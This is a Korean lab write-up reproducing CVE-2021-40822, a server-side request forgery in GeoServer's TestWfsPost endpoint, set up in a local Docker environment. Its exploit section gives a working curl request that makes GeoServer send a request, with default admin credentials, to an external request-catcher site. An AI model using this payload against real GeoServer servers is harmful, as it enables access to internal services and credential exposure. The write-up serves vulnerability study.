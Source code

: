 # CVE-2021-40822 (GeoServer SSRF)

> 화이트햇 스쿨 3기 - [이진석]

<br/>

### 요약

- GeoServer는 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공하는 Java로 작성된 오픈 소스 소프트웨어 서버이다.
- GeoServer 2.19.3, 2.18.5, 2.17.6 이전 버전에는 WMS GetMap 요청에 서버 측 요청 위조(SSRF) 취약점이 존재하여 공격자는 GeoServer 서버를 통해 내부 또는 외부 서비스에 요청을 보낼 수 있다.

### 환경구성
- `docker compose up -d` 커맨드를 입력해 GeoServer 2.19.1 서버를 시작한다.
서버가 시작된 후 GeoServer의 기본 페이지를 찾아볼 수 있다. `http://your-ip:8080/geoserver`
<img width="500" alt="서버기본이미지" src="/0.png"/>

- https://requestcatcher.com/ 또는 https://webhook.site/ 에서 공격을 받을 외부 사이트를 준비한다.
  
### exploit
- 취약점은 TestWfsPost엔드포인트에 존재하여 공격자는 이 url매개변수를 사용하여 서버가 임의의 URL로 요청을 보내도록 할 수 있다.
- 엔드포인트는 다음과 같은 여러 매개변수를 허용한다.
url: GeoServer가 요청을 보낼 대상 URL
body: 전송할 요청 본문으로 이 매개변수가 비어 있으면 GeoServer는 GET 요청을 전송하고, 값이 포함되어 있으면 GeoServer는 POST 요청을 전송한다.
username: 기본 인증을 위한 사용자 이름(선택 사항)
password: 기본 인증을 위한 비밀번호 (선택 사항)

<pre><code>curl -X POST http://127.0.0.1:8080/geoserver/TestWfsPost
  -H "Content-Type: application/x-www-form-urlencoded"        
  -H "Host: (your-name).requestcatcher.com"       
  -d "url=http://(your-name).requestcatcher.com/geoserver/../&body=test&username=admin&password=geoserver"</code></pre> 
  
`참고: 매개변수의 호스트는 요청의 헤더 url와 일치해야 합니다 . 그렇지 않으면 GeoServer에서 오류가 반환됩니다.`
<img width="993" alt="결과이미지" src="/1.png" />

<br/>

### 결과
GeoServer를 향한 요청에 대한 응답으로 외부사이트에 로그가 남아 GeoServer에서 온 test라는 텍스트가 반환되는 것을 볼 수 있습니다.
<br/>
